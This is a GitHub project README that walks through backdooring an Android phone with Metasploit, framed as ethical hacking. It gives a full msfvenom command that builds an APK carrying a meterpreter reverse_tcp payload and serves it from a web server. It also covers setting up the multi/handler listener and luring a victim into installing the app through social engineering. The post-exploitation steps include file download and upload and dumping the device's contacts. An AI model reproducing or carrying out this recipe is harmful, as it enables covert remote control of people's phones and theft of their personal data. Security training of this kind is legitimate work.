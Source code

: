# Hacking-Android-devices-using-Metasploit-Framework
Android hacking made easy with Metasploit framework - my project on exploiting vulnerabilities for penetration testing and ethical hacking.

## Introduction

A backdoor is any route by which someone can circumvent normal security measures to access a system. Pieces of software often come with backdoors built into their code so that engineers and developers can bypass their own defenses to fix problems for their users. Backdoor attacks involve cybercriminals using these entry points to gain unauthorized access to data and systems. These incidents often go undetected, at least at first, because the hackers didn’t have to disrupt or brute force their way through any of the cybersecurity systems. Once they’ve got remote access to a network or device, a bad actor can install malware, engage in data theft, and spy on user activity.

Backdoor attacks can be extremely dangerous because they often involve hackers gaining an extremely high level of access and privileges within a system or network. If they can do this without being detected, they can then squat there for months, monitoring user activity.
An exploit is a code that takes advantage of a software vulnerability or security flaw. It is written either by security researchers as a proof-of-concept threat or by malicious actors for use in their operations. When used, exploits allow an intruder to remotely access a network and gain elevated privileges, or move deeper into the network. In some cases, an exploit can be used as part of a multi-component attack. Instead of using a malicious file, the exploit may instead drop another malware, which can include backdoor Trojans and spyware that can steal user information from the infected systems.

## Features of Metasploit Framework:

The Metasploit framework is a very powerful tool which can be used by cybercriminals as well as ethical hackers to probe systematic vulnerabilities on networks and servers. Because it’s an open-source framework, it can be easily customized and used with most operating systems.

Due to its wide range of applications and open-source availability, Metasploit is used by everyone from the evolving field of DevSecOps pros to hackers. It’s helpful to anyone who needs an easy to install, reliable tool that gets the job done regardless of which platform or language is used. The software is popular with hackers and widely available, which reinforces the need for security professionals to become familiar with the framework even if they don’t use it.

1.	Exploit: Tool used to take advantage of system weaknesses.
2.	Payloads: Sets of Malicious code.
3.	Auxiliary functions: Supplementary tools and commands
4.	Encoders: Used to convert code to information
5.	Listeners: Malicious software that hides in order to gain access
6.	Shellcode: Code that is programmed to activate once inside the target.
7.	Post-exploitation code: Helps test deeper penetration once inside
8.	Nops: An instruction to keep the payload from crashing. 

IMPLEMENTATION:


1.	Generating a Payload with msfvenom
Start Kali Linux so that we may generate an apk file as a malicious payload. We need to check our local IP that turns out to be ‘192.168.0.112’. You can also hack an Android device through Internet by using your Public/External IP in the LHOST and by port forwarding.
 
 ![image](https://user-images.githubusercontent.com/81562207/229279048-8c5be979-a8ca-4f33-8755-44de904783ae.png)

After getting your Local host IP use msfvenom tool that will generate a payload to penetrate the Android device. Type command:
#msfvenom –p android/meterpreter/reverse_tcp LHOST=192.168.0.112 LPORT=4444 R> /var/www/html/ehacking.apk
Where:
-p indicates a payload type
android/metepreter/reverse_tcp specifies a reverse meterpreter shell would come in from a target Android device
LHOST is your local IP
LPORT is set to be as a listening port
R> /var/www/html would give the output directly on apache server
apk is the final name of the final output


2.	Launching an Attack
Before launching attack, we need to check the status of the apache server. Type command:
#service apache2 status
 
![image](https://user-images.githubusercontent.com/81562207/229279152-6b342062-523d-465a-830b-a9df37590b99.png)


All seems set, now type msfconsole. Use multi/handler exploit, set payload the same as generated prevoisly, set LHOST and LPORT values same as used in payload and finally type exploit to launch an attack.

![image](https://user-images.githubusercontent.com/81562207/229279200-5c74b081-2753-429c-9b2a-33892ecd2960.png)
 
In real life scenarios, some social engineering techniques can be used to let the target download the malicious apk file. For demonstration we are just accessing the attacker machine to download the file in the Android device. After downloading it successfully, select the app to install.

![image](https://user-images.githubusercontent.com/81562207/229279271-af872994-d2c1-42e3-9a75-51ab02caf6d2.png)

Once the user installs the application and runs it, the meterepreter session would be opened immediatly at the attacking side.

![image](https://user-images.githubusercontent.com/81562207/229279465-8336c901-4c06-47ff-a8a7-7105a96e3a52.png)


3.	Post Exploitation
Type “background” and then “sessions” to list down all the sessions from where you can see all the IPs connected to the machine. 

![image](https://user-images.githubusercontent.com/81562207/229279529-ca376327-0434-43b2-b1a4-19c526f87584.png)
 
You can interact with any session by typing sessions -i [session ID]. After entering the session, type “help” to list down all the commands we can put forward in this session. You can see some file system commands that are helpful when you’re trying to go after some sensitive information or data. By using these, you can easily download or upload any file or information.

![image](https://user-images.githubusercontent.com/81562207/229279569-43fff339-2ee2-4fd5-85dd-f54731ad92d6.png)

![image](https://user-images.githubusercontent.com/81562207/229279600-a1140b0c-3768-4558-83cd-5ab04dac5b73.png)



4.	Extracting Contacts from an Android Device
Now let extract some contacts from the target device by typing “dump” and double tab.
 
![image](https://user-images.githubusercontent.com/81562207/229279667-bdb86f44-283a-4077-8daf-a59b1254f5b3.png)

It will extract all the contacts from the Android device and will save it in our local directory. To see this file type “ls” and “cat [file_name]”.

![image](https://user-images.githubusercontent.com/81562207/229279728-aa4eb4fb-3a0a-409e-a945-c862d4cf5a44.png)

